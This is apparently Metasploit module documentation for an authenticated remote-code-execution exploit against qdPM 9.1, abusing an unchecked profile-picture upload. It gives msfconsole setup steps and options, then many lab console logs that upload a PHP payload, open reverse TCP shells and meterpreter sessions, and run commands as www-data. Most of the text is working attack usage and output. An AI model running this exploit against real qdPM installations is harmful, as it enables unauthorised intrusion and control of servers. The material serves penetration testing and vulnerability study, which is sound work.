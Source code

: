 ## Vulnerable Application

This module exploits a arbitrary file upload vulnerability in the qdPM web-based project manager software, in its 9.1 version. When updating a user's profile (POST `myAccoutnt/update`), the user is allowed to upload a profile picture, which is stored in a known location under the web server root. The software fails to verify the picture input, allowing for the upload of any file, with any filename extension. This can be eploited by uploading a PHP script and invoking it by making a request to it. 
The script will run with the same privileges as the web server.
The module has been tested against qdPM version 9.1

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/qdpm_authenticated_rce`
- [ ] `set EMAIL <email>`
- [ ] `set PASSWORD <password>`
- [ ] `set TARGETURI <target_uri>`
- [ ] `set RHOST <rhost>`
- [ ] `set RPORT <rport>`
- [ ] `exploit`
- [ ] Add SSL, Proxy, and VHOST options if needed.
- [ ] Verify that a new session is created.

## Options

  **EMAIL**
  [Required]
  The email of the user you want to exploit the software with. The user must NOT be the original Admin (i.e. the account created upon installing qdPM, `admin@your_domain.com`). The original Admin user does not have the same attributes as the other user created later on, and its profile picture cannot be changed. In fact, it has no profile picure nor a `/myAccount` page altogether. If you only have credentials for the original admin, you can always login and create another regular user to run this exploit. Note that users with Admin role are also exploitable, only the one created upon installation is not.

  **PASSWORD**
  [Required]
  The password of the user you are trying to exploit.

  **TARGETURI**
  The path qdPM lives at. This is only needed is qdPM is not served from the webserver root folder.

## Scenarios

As it can be shown by the following scenarios, the exploit works reliably against a variety of targets. The exploit, however, might fail when a large payload (i.e. stageless meterpreter) is selected.

  **Attacking with a generic PHP payload, OS independed**
    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Generic\ (PHP\ Payload)
    target => Generic (PHP Payload)
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload php/meterpreter/reverse_tcp
    payload => php/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit

    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1123 bytes)...
    [*] Executing 'JGvak.php'
    [*] Sending stage (39927 bytes) to 192.168.2.177
    [!] Removing: 993379-JGvak.php
    [*] Meterpreter session 2 opened (192.168.2.177:4444 -> 192.168.2.177:43816) at 2022-06-14 10:03:46 +0200

    (Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
    Server username: www-data
    ```

**Attacking a Linux x86 target**

  Stageless meterpreter.

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x86
    target => Linux x86
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x86/meterpreter_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1481231 bytes)...
    [-] Unable to upload
    [*] Exploit completed, but no session was created.
    ```

  Stageless reverse TCP shell.

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x86
    target => Linux x86
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x86/shell_reverse_tcp
    payload => linux/x86/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1911 bytes)...
    [*] Executing 'TyqPX.php'
    [!] Removing: 430547-TyqPX.php
    [*] Command shell session 3 opened (192.168.2.177:4444 -> 192.168.2.177:43818) at 2022-06-14 10:09:19 +0200
    
    whoami
    www-data
    ```

  Staged meterpreter
    
    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x86
    target => Linux x86
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1940 bytes)...
    [*] Executing 'koTYT.php'
    [*] Sending stage (989032 bytes) to 192.168.2.177
    [!] Removing: 776342-koTYT.php
    [*] Meterpreter session 4 opened (192.168.2.177:4444 -> 192.168.2.177:43820) at 2022-06-14 10:20:21 +0200
    
    (Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
    Server username: www-data
    ```

    Staged reverse TCP shell

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1978 bytes)...
    [*] Executing 'sfePF.php'
    [*] Sending stage (36 bytes) to 192.168.2.177
    [!] Removing: 666994-sfePF.php
    [*] Command shell session 5 opened (192.168.2.177:4444 -> 192.168.2.177:43822) at 2022-06-14 10:22:38 +0200
    
    whoami
    www-data
    ```

**Attacking a Linux x64 target**
  
  Stageless meterpreter

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x64
    target => Linux x64
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x64/meterpreter_reverse_tcp
    payload => linux/x64/meterpreter_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1394916 bytes)...
    [-] Unable to upload
    [*] Exploit completed, but no session was created.
    ```
  
  Stageless reverse TCP shell

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x64
    target => Linux x64
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x64/shell_reverse_tcp
    payload => linux/x64/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (1978 bytes)...
    [*] Executing 'SXyvv.php'
    [!] Removing: 938792-SXyvv.php
    [*] Command shell session 6 opened (192.168.2.177:4444 -> 192.168.2.177:43824) at 2022-06-14 10:25:54 +0200
    
    whoami
    www-data
    ```

  Staged meterpreter

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Linux\ x64
    target => Linux x64
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (2028 bytes)...
    [*] Executing 'RJAVK.php'
    [*] Sending stage (3020772 bytes) to 192.168.2.177
    [!] Removing: 192508-RJAVK.php
    [*] Meterpreter session 7 opened (192.168.2.177:4444 -> 192.168.2.177:43826) at 2022-06-14 10:26:52 +0200
    
    (Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
    Server username: www-data
    ```

  Staged reverse TCP shell

    ```
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload linux/x64/shell/reverse_tcp
    payload => linux/x64/shell/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit
    
    [*] Started reverse TCP handler on 192.168.2.177:4444
    [*] Attempt to login with 'johndoe@localhost.com:easyone'
    [*] Uploading PHP payload (2067 bytes)...
    [*] Executing 'NkTZj.php'
    [*] Sending stage (38 bytes) to 192.168.2.177
    [!] Removing: 531068-NkTZj.php
    [*] Command shell session 8 opened (192.168.2.177:4444 -> 192.168.2.177:43828) at 2022-06-14 10:28:12 +0200
    
    whoami
    www-data
    ```
